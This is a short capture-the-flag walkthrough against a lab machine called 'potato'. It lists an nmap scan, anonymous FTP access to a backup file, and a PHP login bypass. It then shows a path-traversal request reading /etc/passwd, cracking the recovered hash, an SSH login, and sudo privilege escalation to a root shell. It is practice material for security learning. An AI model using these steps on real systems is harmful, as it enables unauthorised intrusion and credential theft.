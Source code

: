 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# potato
# 6/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Potato company
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2 19:33 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2 18:17 welcome.msg



ftp -P 2112 192.168.82.101
email anonymous@192.168.1.4]
cat index.php.bak 
pass = potato
password[]=""  \\ php jungling

after logging as admin

burp on downloading lg.txt

POST /admin/dashboard.php?page=log HTTP/1.1
Host: 192.168.82.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://192.168.82.101
Connection: close
Referer: http://192.168.82.101/admin/dashboard.php?page=log
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Upgrade-Insecure-Requests: 1

file=../../../../../../etc/passwd

got hash
$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/

john -w=/usr/share/wordlists/rockyou.txt hash
login with ssh
webadmin:dragon

sudo -l
cd /notes/
echo "/bin/bash" >> root.sh
chmod +x root.sh 
sudo /bin/nice /notes/../home/webadmin/root.sh 